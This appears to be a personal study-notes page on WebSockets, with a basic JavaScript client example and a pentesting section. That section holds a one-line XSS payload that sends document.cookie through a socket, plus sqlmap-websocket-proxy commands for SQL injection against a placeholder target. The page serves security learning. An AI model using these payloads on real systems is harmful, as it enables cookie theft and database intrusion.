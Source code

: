 # WebSockets

[![modern_web_exploitation_techniques](../../../../cybersecurity/_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)

<div class="row row-cols-lg-2"><div>

WebSockets are natively integrated within most web browsers. They allow real-time communication between a server and a client.

The [socket.io](/programming-languages/web/javascript/libraries/socket.io/index.md) library is a well-known library built on web sockets, while adding a lot of convenient features for real world apps.
</div><div>

For simple applications, we can directly use the WebSocket [API](https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API):

```js!
const socket = new WebSocket('ws://IP:port/test'); // or "wss://" for secure communication
socket.onmessage = message => console.log("Received: " + message.data);
socket.send('test');
```

You can explore the websocket traffic from the network tab/Burp. See also tools such as [wscat](https://github.com/websockets/wscat) <small>(2.1k ⭐)</small> and [websocat](https://github.com/vi/websocat) <small>(6.6k ⭐)</small>.
</div></div>

<hr class="sep-both">

## WebSocket Pentester Notes ☠️

[![modern_web_exploitation_techniques](../../../../cybersecurity/_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)

<div class="row row-cols-lg-2"><div>

Depending on how services are integrated with websockets, [XSS](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md)/[CSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/csrf.md) and [SQLi](/cybersecurity/red-team/s3.exploitation/vulns/injection/sqli.md) attacks might be possible.

```html!
<img src="" onerror="socket.send(document.cookie)">
```
</div><div>

Using SQLMap with websockets may not work. We can try [sqlmap-websocket-proxy](https://github.com/BKreisel/sqlmap-websocket-proxy) <small>(0.1k ⭐)</small>, but it's more efficient to write your own <small>(reuse socket, unify results for SQLMap, handle special attacks, etc.)</small>.

```shell!
$ pipx install git+https://github.com/BKreisel/sqlmap-websocket-proxy
$ DEST="$HOME/tools/sqlmap-websocket-proxy"
$ git clone -b "main" https://github.com/BKreisel/sqlmap-websocket-proxy.git $DEST
$ # do any changes to the code
$ pipx install $DEST # or reinstall if already installed
$ sqlmap-websocket-proxy -u 'ws://IP:port/testdb' -d '{"parameter":"%param%"}' -p 1337
$ sqlmap -u 'http://localhost:1337/?param1=1*' [...]
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [The WebSocket Handbook](https://pages.ably.com/hubfs/the-websocket-handbook.pdf)
* `Sec-WebSocket-Version`
* `Sec-WebSocket-Key: base64encodedkey`
* [STEWS](https://github.com/PalindromeLabs/STEWS) (enumeration tool)
</div><div>
</div></div>